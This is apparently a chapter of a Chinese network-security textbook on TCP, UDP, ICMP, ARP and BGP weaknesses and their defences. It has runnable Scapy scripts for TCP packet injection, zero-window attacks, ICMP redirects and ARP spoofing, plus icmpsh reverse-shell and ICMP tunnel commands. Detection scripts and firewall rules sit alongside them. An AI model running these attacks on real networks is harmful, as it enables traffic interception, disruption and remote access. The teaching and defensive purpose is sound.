## 十、网络协议深度分析

前几章介绍了各层协议的基本工作原理，本章将从安全研究者的视角深入剖析这些协议的设计缺陷、攻击面和防御机制。理解协议的"脆弱点"是网络攻防的核心能力——每一类攻击的本质都是利用协议规范中的某个假设被违反。

### 10.1 TCP 协议安全深度分析

TCP 是互联网最核心的传输协议，也是攻击者研究最深入的协议之一。其安全问题源于一个根本矛盾：TCP 在设计之初（1981 年 RFC 793）并未考虑对抗性环境，序列号、状态机、流量控制等机制都建立在"通信双方诚实"的假设之上。

#### 10.1.1 TCP 状态机与异常检测

TCP 连接的生命周期由一个有限状态机管理。正常情况下，客户端经历 `CLOSED → SYN_SENT → ESTABLISHED → FIN_WAIT_1 → FIN_WAIT_2 → TIME_WAIT → CLOSED`，服务器经历 `LISTEN → SYN_RCVD → ESTABLISHED → CLOSE_WAIT → LAST_ACK → CLOSED`。安全研究的关键在于：**异常状态堆积往往直接指示攻击行为**。



**各异常状态的安全含义**：

| 异常状态 | 含义 | 可能的攻击/故障 | 检测命令 |
|---------|------|----------------|---------|
| `SYN_SENT` 堆积 | 客户端发出 SYN 未收到回应 | 目标不可达、SYN 被过滤 | `ss -s` 查看 SYN 计数 |
| `SYN_RCVD` 堆积 | 服务器收到 SYN 回复 SYN+ACK 后无 ACK | **SYN Flood 攻击** | `netstat -n \| grep SYN_RCVD \| wc -l` |
| `TIME_WAIT` 过多 | 连接正常关闭但未过 2MSL | 短连接攻击、端口扫描、连接池配置不当 | `ss -s` 查看 timewait 计数 |
| `CLOSE_WAIT` 过多 | 收到 FIN 但应用未调用 close() | **应用程序资源泄漏**（最常见） | `netstat -n \| grep CLOSE_WAIT \| wc -l` |
| `FIN_WAIT_2` 过多 | 发送 FIN 收到 ACK 但未收到对端 FIN | 对端进程挂起、半开连接攻击 | `ss -o state fin-wait-2` |

**实战：用 Python 监控 TCP 状态异常**

```python
#!/usr/bin/env python3
"""tcp_state_monitor.py - 实时监控 TCP 异常状态"""
import subprocess
import time
import json
from collections import Counter
from datetime import datetime

THRESHOLDS = {
    'SYN_RECV': 100,    # SYN Flood 阈值
    'CLOSE_WAIT': 50,   # 应用泄漏阈值
    'TIME_WAIT': 5000,  # 短连接阈值
    'FIN_WAIT2': 100,   # 半开连接阈值
}

def get_tcp_states():
    """解析 ss 输出获取各状态连接数"""
    result = subprocess.run(
        ['ss', '-tan', 'state', 'all'],
        capture_output=True, text=True
    )
    states = Counter()
    for line in result.stdout.strip().split('\n')[1:]:
        parts = line.split()
        if len(parts) >= 1:
            states[parts[0]] += 1
    return states

def check_anomalies(states):
    """检查是否有状态超过阈值"""
    alerts = []
    for state, threshold in THRESHOLDS.items():
        count = states.get(state, 0)
        if count > threshold:
            alerts.append({
                'state': state,
                'count': count,
                'threshold': threshold,
                'severity': 'CRITICAL' if count > threshold * 2 else 'WARNING'
            })
    return alerts

def main():
    print("[*] TCP 状态监控启动...")
    while True:
        states = get_tcp_states()
        alerts = check_anomalies(states)
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        
        if alerts:
            for alert in alerts:
                print(f"[{alert['severity']}] {timestamp} "
                      f"{alert['state']}: {alert['count']} "
                      f"(阈值: {alert['threshold']})")
        else:
            print(f"[OK] {timestamp} 所有状态正常")
        
        time.sleep(5)

if __name__ == '__main__':
    main()
```

#### 10.1.2 TCP 序列号预测与会话劫持

TCP 序列号（ISN, Initial Sequence Number）是 TCP 安全的基石。如果 ISN 可预测，攻击者可以在不接触物理链路的情况下劫持已建立的 TCP 连接。这个攻击最早由 Kevin Mitnick 对 Tsutomu Shimomura 的计算机实施（1994 年），成为网络安全史上的经典案例。

**ISN 生成算法的演变**：

| 时期 | 算法 | 安全性 | 说明 |
|------|------|--------|------|
| 早期 BSD | 每秒固定递增 + 每连接 +1 | **极弱** | 可线性预测 |
| Linux 2.6+ | `secure_tcp_sequence_number()` | 较强 | 基于连接四元组 + 密钥的 MD5 哈希 |
| Linux 4.x+ | SipHash 替代 MD5 | 强 | 更快且抗碰撞 |
| Windows | 基于密码学随机数生成器 | 强 | 每连接独立随机 |

**TCP 会话劫持攻击流程**：



**攻击代码示例（仅用于授权测试环境）**：

```python
#!/usr/bin/env python3
"""
tcp_hijack_demo.py - TCP 序列号预测演示
仅用于授权安全测试，未经授权使用属于违法行为
依赖: scapy
"""
from scapy.all import *
import random

def sniff_connection(target_ip, target_port):
    """嗅探目标连接获取当前序列号"""
    packets = sniff(
        filter=f"host {target_ip} and port {target_port}",
        count=10,
        timeout=30
    )
    for pkt in packets:
        if pkt.haslayer(TCP):
            print(f"  源: {pkt[IP].src}:{pkt[TCP].sport}")
            print(f"  目标: {pkt[IP].dst}:{pkt[TCP].dport}")
            print(f"  Seq: {pkt[TCP].seq}, Ack: {pkt[TCP].ack}")
            print(f"  Flags: {pkt[TCP].flags}")
            return pkt
    return None

def predict_isn(current_seq, data_length):
    """
    简化的 ISN 预测（演示用途）
    现代系统的 ISN 生成已高度随机化，实际预测极其困难
    """
    # 真实场景中需要统计分析大量样本
    # 这里仅演示概念
    predicted_ack = current_seq + data_length
    return predicted_ack

def inject_packet(src_ip, dst_ip, sport, dport, seq, ack, payload):
    """构造并注入伪造的 TCP 数据包"""
    ip_layer = IP(src=src_ip, dst=dst_ip)
    tcp_layer = TCP(
        sport=sport, dport=dport,
        seq=seq, ack=ack,
        flags='PA'  # PSH+ACK
    )
    pkt = ip_layer / tcp_layer / Raw(load=payload)
    send(pkt, verbose=0)
    print(f"  [+] 注入完成: seq={seq}, payload_len={len(payload)}")

# 使用示例（需在授权环境中运行）
# pkt = sniff_connection("192.168.1.100", 22)
# if pkt:
#     next_seq = predict_isn(pkt[TCP].ack, 0)
#     inject_packet("192.168.1.50", "192.168.1.100",
#                   pkt[TCP].dport, pkt[TCP].sport,
#                   next_seq, pkt[TCP].seq + 1, b"malicious_command\n")
```

**防御措施**：

1. **使用随机化 ISN**：所有现代操作系统默认启用，确保 `/proc/sys/net/ipv4/tcp_challenge_ack_limit` 等参数未被修改
2. **启用 TCP MD5 签名**（RFC 2385）：BGP 等关键协议使用 MD5 签名保护每个报文
3. **部署 IPsec**：在网络层提供完整性保护，从根本上防止序列号伪造
4. **使用 TLS/SSH 加密**：即使序列号被预测，攻击者也无法构造合法的加密数据
5. **网络分段与 ACL**：限制攻击者能够嗅探的网络范围

#### 10.1.3 TCP 窗口操纵攻击

TCP 窗口机制（RFC 7323）用于流量控制，但攻击者可以操纵窗口大小来实施拒绝服务或降级攻击。

**窗口缩放攻击原理**：

TCP 窗口缩放选项（Window Scale）在三次握手时协商，缩放因子范围 0-14，实际窗口 = 窗口字段值 × 2^缩放因子。攻击者可以：

1. **零窗口攻击**：发送 `Window Size = 0` 的报文，迫使发送方停止传输（进入 Persist 状态），持续发送窗口探测包
2. **窗口缩小攻击**：通过伪造的窗口更新报文急剧缩小窗口，降低传输效率
3. **Silly Window Syndrome 利用**：反复通告微小窗口，导致发送方以极小的段传输数据

```python
#!/usr/bin/env python3
"""tcp_window_attack_demo.py - TCP 窗口操纵演示"""
from scapy.all import *

def zero_window_attack(target_ip, target_port, victim_ip):
    """
    零窗口攻击：伪造受害者的窗口更新，将窗口设为 0
    使目标服务器停止向受害者发送数据
    """
    # 嗅探一个合法的数据包获取序列号
    pkt = sniff(
        filter=f"host {target_ip} and port {target_port}",
        count=1, timeout=10
    )
    if not pkt:
        print("[-] 未捕获到数据包")
        return
    
    pkt = pkt[0]
    # 伪造窗口更新（从受害者发往目标）
    fake_ack = IP(src=victim_ip, dst=target_ip) / \
               TCP(sport=pkt[TCP].dport,
                   dport=pkt[TCP].sport,
                   seq=pkt[TCP].ack,
                   ack=pkt[TCP].seq,
                   flags='A',
                   window=0)  # 零窗口
    
    for _ in range(10):  # 发送多个确保生效
        send(fake_ack, verbose=0)
    print(f"[+] 零窗口攻击包已发送到 {target_ip}:{target_port}")

def window_shrink_attack(target_ip, target_port, victim_ip):
    """
    窗口缩小攻击：逐步通告更小的窗口
    降低目标到受害者方向的传输效率
    """
    pkt = sniff(
        filter=f"host {target_ip} and port {target_port}",
        count=1, timeout=10
    )
    if not pkt:
        return
    
    pkt = pkt[0]
    # 逐步缩小窗口
    for window_size in [8192, 4096, 2048, 1024, 512, 256, 128, 64]:
        fake_ack = IP(src=victim_ip, dst=target_ip) / \
                   TCP(sport=pkt[TCP].dport,
                       dport=pkt[TCP].sport,
                       seq=pkt[TCP].ack,
                       ack=pkt[TCP].seq,
                       flags='A',
                       window=window_size)
        send(fake_ack, verbose=0)
        print(f"  窗口缩小至: {window_size}")
```

**防御策略**：

- 监控同一连接中窗口大小的突变，正常应用的窗口变化是渐进的
- 部署带状态的防火墙，验证窗口更新报文的序列号一致性
- 对于关键服务，使用 TCP 选项验证（如时间戳选项 RFC 7323）防止报文伪造

#### 10.1.4 RST 攻击与连接重置

TCP 的 RST（Reset）标志用于立即终止连接。由于 IP 源地址可以伪造，攻击者可以向任一端发送伪造的 RST 包来断开已建立的连接。

**RST 攻击成功的条件**（历史上）：

1. RST 包的序列号必须在接收方的当前窗口内（窗口内任意值即可）
2. 窗口越大，命中概率越高，攻击越容易

**TCP MD5 和 TCP-AO 的防御**：

- **TCP MD5 Signature Option**（RFC 2385）：为每个 TCP 段添加 MD5 哈希，接收方验证哈希后才处理 RST 等控制报文。主要用于 BGP（RFC 5925 要求）
- **TCP Authentication Option（TCP-AO）**（RFC 5925）：TCP MD5 的继任者，支持更强的 MAC 算法和密钥轮换

```bash
# Linux 配置 TCP MD5 密钥（用于 BGP 等场景）
# 需要内核编译时启用 CONFIG_TCP_MD5SIG
# 通过 setsockopt(TCP_MD5SIG) 设置，通常由路由守护进程（如 FRR/Zebra）管理

# 使用 iptables 丢弃可疑的 RST 包（应急方案）
# 限制 RST 包速率，防止 RST Flood
iptables -A INPUT -p tcp --tcp-flags RST RST -m limit --limit 10/s --limit-burst 30 -j ACCEPT
iptables -A INPUT -p tcp --tcp-flags RST RST -j DROP
```

### 10.2 UDP 与 ICMP 协议安全分析

UDP 和 ICMP 是网络层和传输层的两个"轻量级"协议，它们的安全问题集中在放大攻击和隐蔽信道利用。

#### 10.2.1 UDP 放大攻击

UDP 放大攻击利用了 UDP 无连接验证的特性：攻击者伪造源 IP（受害者 IP）向开放的 UDP 服务发送小请求，服务返回大响应到受害者。

**放大因子对比**：

| 协议/服务 | 端口 | 请求大小 | 响应大小 | 放大倍数 | 利用方式 |
|----------|------|---------|---------|---------|---------|
| DNS 解析 | 53 | ~60 字节 | ~3000 字节 | **50x+** | ANY 查询或 DNSSEC |
| NTP monlist | 123 | ~234 字节 | ~48000 字节 | **200x+** | monlist 命令（已修补） |
| SSDP | 1900 | ~100 字节 | ~30000 字节 | **300x** | M-SEARCH 广播 |
| Memcached | 11211 | ~15 字节 | ~100000 字节 | **6500x+** | stats 命令（2018 GitHub 攻击） |
| CLDAP | 636 | ~52 字节 | ~3000 字节 | **56x** | 无认证查询 |
| Chargen | 19 | 1 字节 | ~512 字节 | **512x** | 字符生成服务 |
| QOTD | 17 | 1 字节 | ~500 字节 | **500x** | 每日一句服务 |

**2018 年 GitHub Memcached DDoS 攻击案例**：

2018 年 2 月 28 日，GitHub 遭受了当时历史上最大规模的 DDoS 攻击，峰值流量达到 **1.35 Tbps**，攻击向量就是暴露在公网的 Memcached 服务器。攻击者发送 15 字节的请求，Memcached 返回约 100KB 的响应，放大倍数超过 51000 倍。GitHub 在 10 分钟内通过 Akamai Prolexic 的 DDoS 清洗服务恢复。

```bash
# 检测本网络是否存在 UDP 放大器
# 测试 NTP 是否暴露 monlist
nmap -sU -p 123 --script ntp-monlist <目标IP>

# 测试 DNS 是否支持 ANY 查询（放大向量）
dig ANY example.com @<目标IP> +short

# 测试 Memcached 是否暴露
echo -ne "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -u <目标IP> 11211

# 使用 nmap 扫描常见 UDP 放大器端口
nmap -sU -p 53,123,161,1900,11211,636,19,17 <目标网段>
```

**防御 UDP 放大攻击**：

1. **入口过滤（BCP 38 / RFC 2827）**：ISP 在网络边缘过滤源 IP 不属于本网络的数据包，从根本上阻止 IP 伪造
2. **关闭不必要的 UDP 服务**：Memcached 默认绑定 0.0.0.0，必须改为 127.0.0.1
3. **限制 UDP 响应速率**：使用 iptables 的 `hashlimit` 模块
4. **部署 DDoS 清洗服务**：Cloudflare、Akamai 等提供的流量清洗能力

```bash
# 防御性 iptables 规则示例
# 限制 UDP 响应速率
iptables -A OUTPUT -p udp -m hashlimit \
    --hashlimit-name udp_rate \
    --hashlimit-above 10/second \
    --hashlimit-burst 20 \
    --hashlimit-mode srcip \
    -j DROP

# 禁止 Memcached 对外响应
iptables -A INPUT -p tcp --dport 11211 -s ! 127.0.0.1 -j DROP
iptables -A INPUT -p udp --dport 11211 -s ! 127.0.0.1 -j DROP
```

#### 10.2.2 ICMP 安全分析

ICMP（Internet Control Message Protocol）用于网络诊断和错误报告，但它也是攻击者常用的工具。

**ICMP 攻击类型**：

| 攻击类型 | ICMP 类型 | 原理 | 影响 |
|---------|----------|------|------|
| Ping Flood | Echo Request (8) | 大量 ICMP 请求消耗带宽 | 带宽耗尽 |
| Ping of Death | Echo Request | 构造 >65535 字节的 ICMP 包 | 系统崩溃（已修补） |
| Smurf Attack | Echo Request | 向广播地址发送 ping，源 IP 伪造为受害者 | 放大 DDoS |
| ICMP 重定向 | Redirect (5) | 通告更优路由，劫持流量 | 中间人攻击 |
| ICMP 隧道 | Echo/Reply | 在 ICMP 中封装数据 | 绕过防火墙、数据外泄 |
| ICMP 时间戳 | Timestamp (13) | 探测主机存活和系统时间 | 信息收集 |

**ICMP 重定向攻击**：

ICMP 重定向报文（Type 5）由路由器发送，通知主机存在更优的路由路径。攻击者可以伪造重定向报文，将受害者流量引导至攻击者控制的主机。

```python
#!/usr/bin/env python3
"""icmp_redirect_demo.py - ICMP 重定向攻击演示"""
from scapy.all import *

def icmp_redirect(victim_ip, real_gateway, malicious_gateway, target_ip):
    """
    向受害者发送 ICMP 重定向报文
    告诉受害者访问 target_ip 的流量应该发往 malicious_gateway
    """
    # ICMP 重定向报文
    # Type=5 (Redirect), Code=1 (Host Redirect)
    redirect = IP(src=real_gateway, dst=victim_ip) / \
               ICMP(type=5, code=1, gw=malicious_gateway) / \
               IP(src=victim_ip, dst=target_ip) / \
               ICMP(type=8)  # 原始触发包（Echo Request）
    
    send(redirect, verbose=0)
    print(f"[+] 重定向已发送: {victim_ip} 访问 {target_ip} "
          f"的流量将经由 {malicious_gateway}")

# 注意：现代系统默认忽略 ICMP 重定向
# sysctl net.ipv4.conf.all.accept_redirects = 0
```

**ICMP 隧道**：

ICMP 隧道利用 ICMP Echo/Reply 报文的数据字段封装任意数据，绕过仅允许 ICMP 通过的防火墙。

```bash
# 使用 icmpsh 建立 ICMP 反向 Shell
# 攻击机
sudo python3 icmpsh_m.py <攻击机IP> <目标机IP>

# 目标机（植入）
icmpsh.exe -t <攻击机IP>

# 使用 ptunnel 建立 ICMP 隧道代理 TCP 流量
# 代理端（公网可达主机）
ptunnel -p <代理IP> -lp 8080 -da <目标内网IP> -dp 22

# 客户端（受限网络内）
ssh -p 8080 localhost  # 流量通过 ICMP 隧道传输
```

### 10.3 ARP 协议安全深度分析

ARP（Address Resolution Protocol）是数据链路层协议，将 IP 地址解析为 MAC 地址。ARP 的核心安全缺陷是**无认证机制**——任何主机都可以发送 ARP 应答，无需被请求。

#### 10.3.1 ARP 欺骗攻击

ARP 欺骗（ARP Spoofing/Poisoning）是最常见的局域网攻击之一，攻击者发送伪造的 ARP 应答，将自己的 MAC 地址与网关或其他主机的 IP 地址关联，从而截获流量。



**使用 Scapy 实现 ARP 欺骗**：

```python
#!/usr/bin/env python3
"""
arp_spoof.py - ARP 欺骗攻击演示
仅用于授权安全测试环境
"""
from scapy.all import *
import time
import sys

def get_mac(ip):
    """通过 ARP 请求获取目标 MAC 地址"""
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    result = srp1(broadcast / arp_request, timeout=3, verbose=0)
    if result:
        return result[Ether].src
    return None

def spoof(target_ip, spoof_ip, target_mac):
    """
    向目标发送伪造的 ARP 应答
    告诉 target_ip: spoof_ip 的 MAC 是攻击者的 MAC
    """
    packet = ARP(
        op=2,                    # ARP Reply
        pdst=target_ip,          # 目标 IP
        hwdst=target_mac,        # 目标真实 MAC
        psrc=spoof_ip            # 伪造的源 IP
    )
    send(packet, verbose=0)

def restore(target_ip, source_ip, target_mac, source_mac):
    """恢复 ARP 表（攻击结束时必须执行）"""
    packet = ARP(
        op=2,
        pdst=target_ip,
        hwdst=target_mac,
        psrc=source_ip,
        hwsrc=source_mac
    )
    send(packet, count=5, verbose=0)

def main():
    if len(sys.argv) != 3:
        print(f"用法: {sys.argv[0]} <目标IP> <网关IP>")
        sys.exit(1)
    
    target_ip = sys.argv[1]
    gateway_ip = sys.argv[2]
    
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    
    if not target_mac or not gateway_mac:
        print("[-] 无法获取目标 MAC 地址")
        sys.exit(1)
    
    print(f"[*] 目标: {target_ip} ({target_mac})")
    print(f"[*] 网关: {gateway_ip} ({gateway_mac})")
    print("[*] 开始 ARP 欺骗，按 Ctrl+C 停止...")
    
    # 开启 IP 转发
    import os
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
    
    try:
        sent_count = 0
        while True:
            spoof(target_ip, gateway_ip, target_mac)
            spoof(gateway_ip, target_ip, gateway_mac)
            sent_count += 2
            print(f"\r[+] 已发送 {sent_count} 个 ARP 包", end="")
            time.sleep(2)
    except KeyboardInterrupt:
        print("\n[*] 恢复 ARP 表...")
        restore(target_ip, gateway_ip, target_mac, gateway_mac)
        restore(gateway_ip, target_ip, gateway_mac, target_mac)
        os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
        print("[*] 已恢复，退出")

if __name__ == '__main__':
    main()
```

**ARP 欺骗检测**：

```bash
# 使用 arpwatch 监控 ARP 表变化
sudo apt install arpwatch
sudo systemctl start arpwatch

# 手动检查 ARP 表中的重复 MAC
arp -a | awk '{print $4}' | sort | uniq -d

# 使用 XArp（图形化 ARP 欺骗检测工具）
# https://www.xarp.net/

# Python 检测脚本
python3 -c "
import subprocess, re
from collections import Counter

output = subprocess.check_output(['arp', '-a'], text=True)
macs = re.findall(r'([0-9a-f:]{17})', output.lower())
dupes = {m: c for m, c in Counter(macs).items() if c > 1}
if dupes:
    print('[ALERT] ARP 欺骗可疑！同一 MAC 关联多个 IP:')
    for mac, count in dupes.items():
        print(f'  {mac} 出现 {count} 次')
else:
    print('[OK] ARP 表正常')
"
```

**ARP 欺骗防御**：

1. **静态 ARP 表项**：将网关 IP 和 MAC 绑定为静态条目
2. **动态 ARP 检测（DAI）**：交换机级别的安全特性，验证 ARP 报文的 IP-MAC 绑定
3. **802.1X 认证**：端口级别的网络准入控制
4. **DHCP Snooping**：交换机学习合法的 IP-MAC 绑定关系

```bash
# 静态 ARP 绑定（应急防御）
arp -s 192.168.1.1 AA:BB:CC:DD:EE:FF

# 持久化静态 ARP（/etc/ethers 文件）
echo "AA:BB:CC:DD:EE:FF 192.168.1.1" >> /etc/ethers

# Cisco 交换机 DAI 配置示例
# ip dhcp snooping
# ip dhcp snooping vlan 10
# ip arp inspection vlan 10
# ip arp inspection validate src-mac dst-mac ip
# interface GigabitEthernet0/1
#   ip arp inspection trust
```

### 10.4 BGP 协议安全分析

BGP（Border Gateway Protocol）是互联网的核心路由协议，负责在自治系统（AS）之间交换路由信息。BGP 的安全问题影响范围极大——一次 BGP 劫持可能导致整个国家或大洲的互联网流量被重定向。

#### 10.4.1 BGP 劫持

BGP 劫持（BGP Hijacking）是指攻击者通过 BGP 宣告不属于自己的 IP 前缀，将流量引导至攻击者控制的网络。

**BGP 劫持类型**：

| 类型 | 描述 | 危害 | 检测难度 |
|------|------|------|---------|
| 前缀劫持 | 宣告更具体的前缀（/24 vs /16） | 流量被完全劫持 | 中 |
| 子前缀劫持 | 宣告受害者前缀的子网 | 部分流量劫持 | 中 |
| 路径伪造 | 修改 AS-PATH 属性 | 选择性劫持 | 高 |
| 路由泄漏 | 将从对等体学到的路由转发给提供商 | 流量绕行 | 高 |

**历史重大 BGP 劫持事件**：

- **2018 年 4 月**：Amazon Route 53 的 BGP 劫持，攻击者劫持了 `amazon.com` 的 DNS 服务器 IP 前缀，窃取了加密货币钱包用户的资金（约 17 万美元）
- **2019 年 6 月**：中国电信的路由泄漏导致欧洲和北美的大量流量经过中国，持续约 2 小时
- **2022 年**：俄罗斯对乌克兰的多次 BGP 劫持，切断了部分地区的互联网访问

```bash
# 监控 BGP 路由变化
# 使用 RIPE RIS 实时数据
curl -s "https://stat.ripe.net/data/looking-glass/data.json?resource=AS15169" | jq .

# 使用 BGPStream 检测可疑路由事件
# 安装: pip3 install pybgpstream
python3 -c "
import pybgpstream
stream = pybgpstream.BGPStream(
    from_time='2024-01-01 00:00:00',
    record_type='updates',
    collectors=['route-views2'],
    filter='prefix 1.1.1.0/24'
)
for rec in stream.records():
    for elem in rec:
        print(elem.fields)
"
```

#### 10.4.2 BGP 安全机制

**RPKI（Resource Public Key Infrastructure）**：

RPKI 是当前部署最广泛的 BGP 安全机制，通过数字证书验证 IP 前缀和 AS 号的授权关系。



```bash
# 检查 RPKI 状态
# 使用 Routinator（RPKI 验证器）
# 安装: cargo install routinator
routinator vrps --output-format csv | head -20

# 使用 RIPE 的 RPKI Validator 检查特定前缀
